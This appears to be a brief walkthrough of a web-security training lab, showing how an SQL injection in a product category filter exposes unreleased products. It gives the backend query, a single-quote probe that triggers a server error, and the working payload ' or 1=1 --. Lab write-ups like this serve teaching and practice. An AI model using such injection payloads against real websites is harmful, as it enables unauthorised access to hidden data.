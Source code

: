 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

1. SQLi: product category filter.
2. Goal: display one or more unreleased products.

### Analysis
- Website target: `https://0adf005804fa6d1c80c205e000ac00fa.web-security-academy.net/filter?category=Accessories`
```sql
SELECT * FROM products WHERE category = 'Accessories' AND released = 1

SELECT * FROM products WHERE category =''' AND released = 1
'-- Internal Server Error.(you can use sqli attack)

SELECT * FROM products WHERE category ='' or 1=1 --' AND released = 1
-- Is always true.
```